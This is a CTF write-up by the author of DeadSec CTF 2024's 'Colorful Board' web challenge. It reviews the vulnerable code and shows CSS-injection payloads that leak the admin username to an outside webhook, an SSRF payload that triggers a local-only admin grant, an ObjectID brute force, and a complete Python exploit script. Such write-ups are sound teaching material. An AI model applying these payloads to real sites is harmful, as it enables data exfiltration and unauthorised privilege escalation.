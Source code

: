 ```yaml
---
title: DeadSec CTF 2024 Review
date: 2024-07-29
categories: [CTF]
tags: [Write up]
---
```


## Information 
Participated with DeadSec CTF 2024 Challenge Author  

## Comment
Hello!, This is **Little stranger**, who participated DeadSec CTF as a web challenge author of `Colorful board`.  
Thank you to everyone who enjoyed and praised the challenge, even though it was hastily created.  
Next year, I will repay you with better quality challenges.

## Write up
### web/Colorful Board  

#### Desc
First Flag is Admin's username,
Second Flag is Hidden Notice content.

#### Code Review
You can register with username, password, personalColor.  
You can inject css with personalColor. But you can't xss because of xss sanitizer.
```typescript
// src/api/post/pose.controller.ts
@Get('/edit/:id')
@UseGuards(AdminGuard)
@Render('post-edit')
async renderEdit(@Req() request: Request, @Param('id') id: Types.ObjectId) {
    const post = await this.postService.getPostById(id);
    const author = await this.userService.getUserById(post.user);
    const user = request.user;

    user.personalColor = xss(user.personalColor);
    author.personalColor = xss(author.personalColor);

    return { post: post, author: author, user: request.user };
}
```
{% raw %}
```hbs
// src/common/views/post-edit.hbs
<style>
    .author {
        color:  {{{ author.personalColor }}} 
    }

    .user {
        color: {{{ user.personalColor }}}
    }
</style>
```
{% endraw %}
Using css injection, You can leak one char of Admin username. So, You can repeat these leak payload to get full username. ( 💡Alert, You should split accounts because of cookie length limit )  
  
**Example**
```python
{
    "username":"dummy",
    "password":"dummy",
    "personalColor":"black};input[class='user'][value^='DEAD{A']{ background: url('{webhook_url}/DEAD{A');}
    input[class='user'][value^='DEAD{B']{ background: url('{webhook_url}/DEAD{B');}
    input[class='user'][value^='DEAD{C']{ background: url('{webhook_url}/DEAD{C');}
    (...)"
}
```  
Next, We should get admin perm to get Notices.  
Look at the `/admin/grant` route. There is a LocalOnlyGuard.  
So, We can use css injection to **SSRF**.   
```typescript
@Get('/grant')
@UseGuards(LocalOnlyGuard)
async grantPerm(@Query('username') username: string) {
    return await this.adminService.authorize(username);
}
```
```python
{
    "username":"dummy",
    "password":"dummy",
    "personalColor":"red;}input{background: url('http://localhost:1337/admin/grant?username=dummy');"
}
```  
<br>
Second FLAG is Hidden Notice.  
It is Just Bruteforce Challenge. For **Example**
```python
res = s.get(f"http://localhost:1337/admin/notice/66946f{timestamp}88520537f149f4a", headers=auth)
if "No Notice" not in res.text:
    print(res.text)
    exit()
```
💡For details, refer to mongodb objectID creation method.  

Let’s put this all together and write exploit code.
#### Exploit
{% raw %}
```python
import requests
import string
import json

url="http://localhost:1337"
webhook_url = "https://lqlcuwb.request.dreamhack.games"
characters = string.ascii_letters
mid = len(characters) // 2
first_half = characters[:mid]
second_half = characters[mid:]
digitChar = string.digits + "_"
FLAG="DEAD{"

# Admin username leak with CSS Injection
for i in range(16):
    styles_alpha1 = [f"input[class='user'][value^='{FLAG}{char}']{{ background: url('{webhook_url}/{FLAG}{char}'); }}" for char in first_half]
    styles_alpha2 = [f"input[class='user'][value^='{FLAG}{char}']{{ background: url('{webhook_url}/{FLAG}{char}'); }}" for char in second_half]
    styles_digit = [f"input[class='user'][value^='{FLAG}{char}']{{ background: url('{webhook_url}/{FLAG}{char}'); }}" for char in digitChar]

    payload = ["\n".join(styles_alpha1), "\n".join(styles_alpha2), "\n".join(styles_digit)]

    for j in range(3):
        reg = requests.post(f"{url}/auth/register", json={"username": f"t{i}{j}", "password":f"t{i}{j}", "personalColor": "red;}"+payload[j]})
        if "saved" in reg.text:
            s = requests.session()
            res = s.post(f"{url}/auth/login", json={"username": f"t{i}{j}", "password":f"t{i}{j}"})
            token = json.loads(res.text)['accessToken']
            print(f'[+] Token: {token}')
            auth = {'Authorization': f'Baerer {token}', 'Content-Type': 'application/json'}

            res = s.post(f"{url}/post/write", headers=auth, json={"title": "asdf", "content": "asdf"})
            
            res = s.get(f"{url}/post/all", headers=auth)
            post_array = json.loads(res.text)
            post_id = post_array[0]['_id']
            print(post_id)
            res = s.get(f"{url}/admin/report?url=http://localhost:1337/post/edit/{post_id}", headers=auth)
            print(res.text)
    leaked = input("Leaked Char: ")
    FLAG += leaked

# CSRF with css Injection 
reg = requests.post(f"{url}/auth/register", json={"username": "test", "password":"test", "personalColor": "red;}input{background: url('http://localhost:1337/admin/grant?username=dummy')"})
if "saved" in reg.text:
    s = requests.session()
    res = s.post(f"{url}/auth/login", json={"username": "test", "password":"test"})
    token = json.loads(res.text)['accessToken']
    print(f'[+] Token: {token}')
    auth = {'Authorization': f'Baerer {token}', 'Content-Type': 'application/json'}

    res = s.post(f"{url}/post/write", headers=auth, json={"title": "asdf", "content": "asdf"})
    
    res = s.get(f"{url}/post/all", headers=auth)
    post_array = json.loads(res.text)
    post_id = post_array[0]['_id']
    res = s.get(f"{url}/admin/report?url=http://localhost:1337/post/edit/{post_id}", headers=auth)
    print(res.text)
```
{% endraw %}

